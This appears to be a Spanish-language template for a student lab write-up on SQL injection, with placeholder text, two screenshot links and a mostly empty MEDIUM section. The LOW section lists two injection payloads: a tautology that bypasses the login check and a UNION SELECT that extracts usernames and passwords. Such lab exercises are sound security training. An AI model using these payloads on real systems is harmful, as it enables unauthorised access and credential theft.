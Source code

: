 # 🛡️ [Título de la vulnerabilidad]

## LOW
## 📋 Breve explicación
[Escribe aquí una breve descripción de la vulnerabilidad, qué hace y su importancia.]

## 🖥️ Comando ejecutado
```bash
' or 1=1#

' UNION SELECT user, password FROM users#
```
## 📸 Captura de pantalla
![a2dismod](https://github.com/PPS10711021/RA3/blob/main/RA3/RA3_2/images/sql1.png)
![a2dismod](https://github.com/PPS10711021/RA3/blob/main/RA3/RA3_2/images/sql2.png)
---

## MEDIUM
## 📋 Breve explicación
[Escribe aquí una breve descripción de la vulnerabilidad, qué hace y su importancia.]

---

## 🖥️ Comando ejecutado
```bash
[Comando que has utilizado]
```
## 📸 Captura de pantalla
